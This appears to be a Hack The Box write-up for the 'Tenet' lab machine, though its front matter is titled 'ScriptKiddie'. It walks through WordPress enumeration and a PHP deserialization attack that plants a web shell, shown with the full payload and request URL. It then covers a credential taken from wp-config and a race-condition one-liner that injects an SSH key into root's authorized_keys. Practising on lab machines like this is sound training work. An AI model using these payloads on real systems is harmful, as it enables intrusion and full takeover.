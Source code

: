 ```yaml
---
layout: post
title: ScriptKiddie
published: true
---
```


Tenet is a medium box from Hack The Box.

### Enumeration

A nmap scan reveals only 2 ports open on the box: 22 and 80. It looks like the web server is running WordPress 5.6. Good to know.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

While I take a look at the web page, I run a wpscan in the background to enumerate any possible vulnerable plugins or themes.

`wpscan --url http://tenet.htb -e --api-token <api-token> -o wpscan.txt`

I found a few vulnerabilities but they all seem to be dead ends.

![Pasted image 20210610104151](https://user-images.githubusercontent.com/60187707/121790099-9088f500-cba1-11eb-993b-c5966a39c4ef.png)

Posts on the site reveal 2 users, `neil` and `protagonist`, which `wpscan` also found. 
A comment on a post refers to a file, `sator.php`, and its backup.

![image](https://user-images.githubusercontent.com/60187707/121790142-fe352100-cba1-11eb-89b8-3224d4ef9dc5.png)

After navigating to `/sator.php` in the browser, it looks the page is still up.

![image](https://user-images.githubusercontent.com/60187707/121790159-26248480-cba2-11eb-9028-897e05066999.png)

### Exploitation

Navigating to `/sator.php.bak` initiates a download of the file.
```

class DatabaseExport
{
	public $user_file = 'users.txt'; ## Variables?
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()        ## Concatenation\/
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';          ## $objects
$databaseupdate = unserialize($input);  ## UNSERIALIZES INPUT
echo serialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

PHP is a bittt over my head at the moment, but after some [reading](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) and some [more reading](https://notsosecure.com/remote-code-execution-via-php-unserialize/), I think I know enough to exploit it.

The PHP code accepts user input in the form of a parameter named `arepo` and then unserializes that input. There is a vulnerability in the way that PHP magic methods like `__destruct()` handle serialized objects that can lead to RCE.
So, if I craft a serialized object that contains a payload, `sator.php` will execute my payload when it unserializes my input.

```
<?php

class DatabaseExport 
{
	public $user_file = 'tron.php';
	public $data = '<?php system($_REQUEST["cmd"]); ?>';
}

$pwn = new DatabaseExport;
echo (serialize($pwn));

?>

```
Running this PHP script will output a serialized object in which I have redefined the variables `$user_file` and `$data`. When `sator.php` executes, it will create a new file named `tron.php` that contains a parameter I can interact with for RCE.

```
O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}
```

Place the serialized object into the `arepo` parameter:
`10.10.10.223/sator.php?arepo=O:14:"DatabaseExport":2:{s:9:"user_file";s:8:"tron.php";s:4:"data";s:34:"<?php system($_REQUEST["cmd"]); ?>";}`

After some finagling with URL encoding via burp, I get a reverse shell on the machine.

![Pasted image 20210612153735](https://user-images.githubusercontent.com/60187707/121790353-3e959e80-cba4-11eb-9e3e-1730cd348c9f.png)

On as `www-data`:

![Pasted image 20210612154138](https://user-images.githubusercontent.com/60187707/121790360-46554300-cba4-11eb-949e-2dc4a5f0fc59.png)

### Privilege Escalation

Not much to do as `www-data`, but `neil` is also a user on this box, so I start looking for credentials of some kind.
I know that `wp-config` usually has credentials, so I go digging.

Found some credentials for `neil`. 
```
/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
```

SSH in as `neil` with his password, and now I can look around some more.

`sudo -l`

![Pasted image 20210612154801](https://user-images.githubusercontent.com/60187707/121790443-017ddc00-cba5-11eb-97ae-d94db40f8bfc.png)

There is a script that `neil` can run with `sudo`.

```
#!/bin/bash

checkAdded() {
	sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)
	if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then
		/bin/echo "Successfully added $sshName to authorized_keys file!"
	else
		/bin/echo "Error in adding $sshName to authorized_keys file!"
	fi
}
checkFile() {
	if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then
		/bin/echo "Error in creating key file!"
		if [[ -f $1 ]]; then /bin/rm $1; fi
		exit 1
	fi
}
addKey() {
	tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)
	(umask 110; touch $tmpName)
	/bin/echo $key >>$tmpName
	checkFile $tmpName
	/bin/cat $tmpName >>/root/.ssh/authorized_keys
	/bin/rm $tmpName
}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"

addKey
checkAdded
}
```

The script writes an SSH key into a file with a randomly generated name in the format `/tmp/ssh-XXXXXXXX`, then uses `cat` to append that key to `/root/.ssh/authorized_keys`. There appears to be a race condition here, as the `$tmpName` file exists during the `checkFile` process, before it's written to `authorized_keys`, so if I am constantly writing  my own SSH key to any file in the `/tmp` directory that fits the format `/tmp/ssh*`, I should be able to overwrite the root user's key. 

`while true; do echo "<id_rsa.pub> | tee /tmp/ssh* > dev/null; done &`

This one-liner will do just that. I run it in the background while I run `sudo /usr/local/bin/enableSSH.sh`. 

After a couple of tries, I can SSH in as `root` with no password.

![Pasted image 20210612170356](https://user-images.githubusercontent.com/60187707/121816382-e82a6d80-cc40-11eb-915c-8dc8e1258c65.png)




